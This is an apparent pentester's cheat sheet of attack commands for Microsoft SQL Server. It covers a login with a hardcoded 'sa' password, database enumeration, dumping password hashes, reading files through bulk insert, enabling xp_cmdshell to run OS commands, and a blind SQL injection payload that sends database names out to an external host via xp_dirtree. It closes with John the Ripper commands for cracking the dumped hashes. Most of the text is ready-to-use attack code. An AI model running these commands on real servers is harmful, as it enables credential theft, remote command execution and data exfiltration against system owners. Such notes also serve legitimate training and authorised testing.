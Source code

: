 ```shell
sqsh -S 10.11.1.31 -U sa -P poiuytrewq -D Db
```

### Version
```SQL
Select @@version;
GO
```
### Show databases
```sql
SELECT name FROM sys.databases
GO
```

### Show tables
```sql
SELECT TABLE_NAME
FROM INFORMATION_SCHEMA.TABLES
WHERE TABLE_TYPE = 'BASE TABLE' AND TABLE_CATALOG='master'
go

```

### Show Column names

```SQL
-- Method 1
EXEC SP_COLUMNS 'Orders'

-- Method 2
EXEC SP_HELP 'Sales.Orders'

-- Method 3
SELECT COLUMN_NAME, ORDINAL_POSITION, DATA_TYPE FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'Orders'

-- Method 4
SELECT NAME, COLUMN_ID FROM SYS.COLUMNS WHERE object_id = OBJECT_ID('Sales.Orders')
```

### List Password Hashes

```SQL


SELECT name, password FROM master..sysxlogins -- priv, mssql 2000;  

SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins -- priv, mssql 2000.  Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.  

SELECT name, password_hash FROM master.sys.sql_logins -- priv, mssql 2005; 

SELECT name + ‘-‘ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins -- priv, mssql 2005
```

### Read File

```SQL
Create table mydata (line varchar(8000))
bulk insert mydata from 'C:\boot\ini';
GO
```

### CMD Execute 

```SQL
-- Command Execution
-- User must have ALTER SETTING Permission to change setting

EXEC xp_cmdshell 'net user'; -- privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:  
EXEC sp_configure 'show advanced options', 1; -- priv  
RECONFIGURE; -- priv  
EXEC sp_configure 'xp_cmdshell', 1; -- priv  
RECONFIGURE; -- priv
```


### Blind SQL Data Exfiltration.


**Detect

```sql
WAITFOR DELAY '00:00:10'
```

**Exfiltrate

```SQL
DECLARE @data varchar(2000); (set @data = '' ; SELECT  @data = @data + name + ',' FROM sys.databases ) ; EXEC('master..xp_dirtree "\\192.168.119.216\'+@data+'"') ; --
```



### Brute Force

**MS SQL 2000 - SHA1+sel+case sensitive + tt Maj**

```shell
john --format=mssql password.txt
```

**MS SQL 2005 - SHA1+sel+case sensitive**

```shell
john --format=mssql05 password.txt
```


**MS SQL 2012- SHA256+sel+case sensitive**

```shell
john --format=mssql12 password.txt
```
